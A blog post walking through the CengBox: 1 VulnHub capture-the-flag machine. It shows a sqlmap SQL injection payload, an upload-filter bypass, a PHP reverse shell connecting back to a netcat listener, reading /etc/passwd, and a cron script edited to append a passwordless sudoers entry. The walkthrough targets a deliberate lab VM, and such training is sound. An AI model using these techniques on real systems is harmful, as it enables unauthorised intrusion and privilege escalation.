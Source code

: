 ```yaml
---
title: "CTF Walk Through | CengBox: 1"
description: CengBox CTF Walk Through 
layout: post
---
```

After a long break off of CTF's, I decided to dive into this one. 

Here's the description from the vulnhub page:
{% highlight text %}
There is a company which seems unreliable. You must think like a hacker and 
hack it easily. I think you do not need a hint but here is the nudges for you. 
For user you should understand how it is work and manipulate it. 
You might need everything that you'll find. For root, wait a minute.
{% endhighlight %}

You can find the .ova file [here](https://www.vulnhub.com/entry/cengbox-1,475/)

#### Enumeration 

Nmap service scan results: 
{% highlight terminal %}
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
{% endhighlight %}

Enumerating interesting dirctories on the webserver with dirb:
{% highlight terminal %}
user@attacker ~ $ dirb http://cengbox/ /usr/share/dirb/wordlists/big.txt
{% endhighlight %}
Dirb reveals an interesting directory called `masteradmin/`. Let's dig a little
deeper and filter for php files:
{% highlight terminal %}
user@attacker ~ $ dirb http://cengbox/masteradmin /usr/share/dirb/wordlists/big.txt -X .php

---- Scanning URL: http://cengbox/masteradmin/ ----
http://cengbox/masteradmin/db.php (CODE:200|SIZE:0)
http://cengbox/masteradmin/login.php (CODE:200|SIZE:5137)               
http://cengbox/masteradmin/upload.php (CODE:200|SIZE:1440)    
{% endhighlight %}

#### Gaining access to the masteradmin area
login.php shows a PHP form. After a while of failed bruteforcing attempts, I 
switched to sqlmap and test if either of the fields are vulnerable to SQL 
injection. First, we'll need to get all of the request data and throw it into a 
file, then feed it to sqlmap. This can be done with BurpSuite set up as a proxy, 
or by copying the information in the network tab in the developer tools section of 
your browser. I saved the HTTP request data to a `master-admin` text file:
{% highlight text %}
POST /masteradmin/login.php HTTP/1.1
Host: cengbox
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cengbox
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://cengbox/masteradmin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=rqlj4ki81lc5mgcjffhv5g44r0

username=admin&password=admin&submit=
{% endhighlight %}

Now let's feed the request data to sqlmap using the '-r' option:
{% highlight terminal %}
user@attacker ~ $ sqlmap -r master-admin
SNIP!
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8185 FROM (SELECT(SLEEP(5)))dytG) AND 'UrhE'='UrhE&password=admin&submit=
{% endhighlight %}

So, the username field is vulnerable. Let's dump the tables using the `--dump` option with sqlmap:
{% highlight terminal %}
user@attacker ~ $ sqlmap --dump -r master-admin
-- SNIP! --
Database: cengbox
Table: admin
[1 entry]
+------+-------------+---------------+
| id   | username    | password      |
+------+-------------+---------------+
| 1    | masteradmin | C3ng0v3R00T1! |
+------+-------------+---------------+
{% endhighlight %}

__That looks like a plaintext password.__

Back to the webserver to test it. Logging in redirects to `upload.php` 
To test what can be uploaded, I uploaded a jpeg and got the following error:
>"extension not allowed, please choose a CENG file."

Uploading the same jpeg, but with the additional ".ceng" file extension shows:
>"Success" 

This file can be located in the `uploads/` directory, but it's displayed as raw
data and not as the uploaded image. 

#### Can we execute PHP scripts? 
Let's write a simple PHP script that 
{% highlight php %}
<?php echo "This could be a shell, but u trippin" ?>
{% endhighlight %}

save the file as `test.php.ceng`, upload and navigate to the file on the server

http://cengbox/uploads/test.php.ceng reveals that we can execute code on
the server. 


#### Getting a low privilege shell
Exploiting this configuration error by uploading a [PHP reverse TCP shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) that connects back to a netcat listener on the attacking machine. 

before uploading the script, two variables need to be changed: 
{% highlight php %}
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
{% endhighlight %}

To this:
{% highlight php %}
$ip = '192.168.56.109';  // the attacking IP or Hostname
$port = 666;       // very black metal, very cool.
{% endhighlight %}

Save and upload it with a .ceng extension. Before executing the script, we'll
set up the netcat listener:
{% highlight terminal %}
user@attacker ~ $ nc -nvlp 666
{% endhighlight %}

Then execute the script with the browser:
http://cengbox/uploads/reverse-shell.php.ceng

#### CONNECTED
{% highlight terminal %}
user@attacker ~ $ nc -nvlp 666
Linux cengbox 4.4.0-177-generic #207-Ubuntu SMP Mon Mar 16 01:16:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:44:05 up  3:45,  0 users,  load average: 0.44, 0.17, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
{% endhighlight %}

#### Local Enumeration On Server 
We'll need to enumerate some things on the target machine. First off, let's get
the users:
{% highlight terminal %}
$ cat /etc/passwd
--SNIP--
cengover:x:1000:1000:cengover,,,:/home/cengover:/bin/bash
{% endhighlight %}
Mostly the usual users, plus the cengover user. This is likely an admin.
We have a plaintext masteradmin password, so maybe it will work for cengover:
{% highlight terminal %}
user@attacker ~ $ ssh cengover@cengbox

cengover@cengbox's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

78 packages can be updated.
0 updates are security updates.


Last login: Wed Apr 29 18:42:51 2020 from 192.168.0.14
cengover@cengbox:~$ 
{% endhighlight %}

#### Getting the first flag
{% highlight terminal %}
cengover@cengbox:~$ ls
user.txt
cengover@cengbox:~$ cat user.txt
8f7f6471e2e869f029a75c5de601d5e0
{% endhighlight %}

### Escalating Privileges
taking a swing at some low hanging fruit:
{% highlight terminal %}
cengover@cengbox:~$ sudo -i
[sudo] password for cengover: 
cengover is not in the sudoers file.  This incident will be reported.
{% endhighlight %}

Any SUID misconfigurations of note? 
{% highlight terminal %}
cengover@cengbox:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/bin/ping6
/bin/su
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
/sbin/mount.ecryptfs_private
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
{% endhighlight %}

Maybe something jumps out at you, but I didn't spot anything of note. 

#### Exploring the installed software
To get a better feel for the system, I poke around in the `/usr/`, `/opt/` and
`/var/` directories for configs, possibly vulnerable software versions and logs.
Then __by chance__ in the `opt` directory:
{% highlight terminal %}
cengover@cengbox:~$ ls -al /opt/
total 12
drwxr-xr-x  2 root root  4096 Apr 28 13:35 .
drwxr-xr-x 23 root root  4096 Apr 26 13:28 ..
-rw-rw----  1 root users  545 Apr 29 16:12 md5check.py
{% endhighlight %}

The cengover user doesn't have execution permissions on the script, but the do
have read, write permissions on both the opt directory and the script.
#### md5check.py writable?
{% highlight python %}
import hashlib
import datetime
time = datetime.datetime.now()
fileValue = "a6f529aaed396d7b7e10a07d35a8ea2b"
md5Hash = hashlib.md5()
openFile = open("/etc/passwd","rb")
content = openFile.read()
md5Hash.update(content)
digest = md5Hash.hexdigest()
if fileValue != digest :
    f = open("/root/warning.txt","a")
    f.write("File had changed.")
    f.write(str(time))
    f.write("\n")
    f.close()
else:
    f = open("/root/note.txt","a")
    f.write("File still seems the same. Date : ")
    f.write(str(time))
    f.write("\n")
    f.close()
{% endhighlight %}

It's a logging script that checks the hardcoded hash value against the 
`/etc/passwd` hash and logs when the values differ or remain the same in the 
root user directory. This is periodically run by a cron job, but the cengover 
user can't check for it. The code doesn't seem very relevant so editing the code 
to append cengover to the sudoers file should probably do it:
{% highlight python %}
f = open("/etc/sudoers","a")
f.write("cengover ALL=(ALL) NOPASSWD:ALL\n")
f.close()
{% endhighlight %}

After a while, the script is called by cron and cengover is appended to the 
sudoers file __(if left unchecked, this will happen multiple times..)__ 

#### Root shell
{% highlight terminal %}
cengover@cengbox:~$ sudo -i
root@cengbox:~#
{% endhighlight %}
Here's the root flag.
{% highlight terminal %}
root@cengbox:~# cat root.txt 
-- SNIPPED ASCII Art --
Congrats. Hope you enjoyed it and you can contact me on Twitter @arslanblcn_

a51e522b22a439b8e1b22d84f71cf0f2
{% endhighlight %}
